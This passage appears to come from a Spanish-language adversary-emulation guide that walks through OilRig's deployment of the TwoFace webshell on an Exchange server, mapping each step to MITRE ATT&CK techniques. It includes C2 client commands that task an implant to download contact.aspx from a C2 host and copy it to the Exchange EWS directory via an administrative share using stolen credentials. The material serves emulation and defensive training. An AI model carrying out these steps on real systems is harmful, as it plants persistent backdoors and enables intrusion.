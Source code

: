 Con las credenciales de Gosta obtenidas en el paso anterior, los atacantes ahora poseen capacidad para acceder al servidor Exchange. Sin embargo, en lugar de depender únicamente de credenciales robadas, OilRig establece un mecanismo de acceso más permanente y sigiloso: un webshell ASP.NET.

El webshell se instala en el directorio de Exchange Web Services (EWS), donde se mezcla con los archivos legítimos de ASP.NET del servidor Exchange. Esta ubicación es estratégica porque:
1. Los archivos .aspx son legítimos en ese directorio
2. El servidor IIS ya está configurado para ejecutar código ASP.NET
3. El acceso se realiza mediante HTTPS legítimo (puerto 443)
4. Ejecuta con privilegios de SYSTEM (contexto de IIS/ApplicationPoolIdentity)

#### Técnicas MITRE ATT&CK

**T1105 - Ingress Tool Transfer**
- TwoFace (contact.aspx) se descarga vía SideTwist
- El archivo se transfiere del C2 al sistema comprometido

**T1570 - Lateral Tool Transfer**
- contact.aspx se copia desde THEBLOCK hacia WATERFALLS
- Utiliza SMB administrativo (C$) con credenciales de Gosta

**T1505.003 - Server Software Component: Web Shell**
- Instalación de webshell en servidor web legítimo (IIS/Exchange)
- Proporciona acceso persistente vía HTTP/HTTPS

**T1564.001 - Hide Artifacts: Hidden Files and Directories**
- Uso del atributo +h para ocultar el webshell
- Dificulta descubrimiento mediante navegación visual

**T1070.004 - Indicator Removal on Host: File Deletion**
- Eliminación de contact.aspx de THEBLOCK después de copiar a WATERFALLS
- Reduce evidencia forense en el sistema inicial

#### Flujo de Ejecución Técnica

**Paso 1: Descarga del Webshell a THEBLOCK**

```bash
./evalsC2client.py --set-task goTb '102 C:\Users\Public\contact.aspx|contact.aspx'
```

**Proceso:**
1. SideTwist recibe la instrucción de descargar contact.aspx
2. Realiza petición GET al C2 (192.168.0.4:443)
3. Recibe contact.aspx cifrado y codificado
4. Descifra y guarda en `C:\Users\Public\contact.aspx`

**Nota de implementación:**
En la emulación con CALDERA, el archivo se descarga primero a la ubicación del agente (`C:\Users\gosta\AppData\Local\SystemFailureReporter\`) y luego se copia a `C:\Users\Public\`. Esto es una variación técnica pero el resultado operacional es el mismo.

**Paso 2: Copia del Webshell al Servidor Exchange**

```bash
./evalsC2client.py --set-task goTb '101 copy C:\Users\Public\contact.aspx "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\"'
```
